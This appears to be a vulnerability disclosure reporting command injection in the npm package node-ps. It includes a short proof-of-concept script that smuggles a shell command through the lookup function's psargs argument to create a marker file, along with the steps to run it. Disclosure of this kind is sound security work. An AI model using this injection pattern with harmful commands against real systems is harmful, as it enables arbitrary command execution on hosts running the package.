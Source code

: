 # Description

Command Injection in node-ps

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var a =require("node-ps");
a.lookup({psargs:["& touch HACKED #"]},function(){})
```

2. Execute the following commands in terminal:

```
npm i node-ps # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output using ls command before and after the execution.
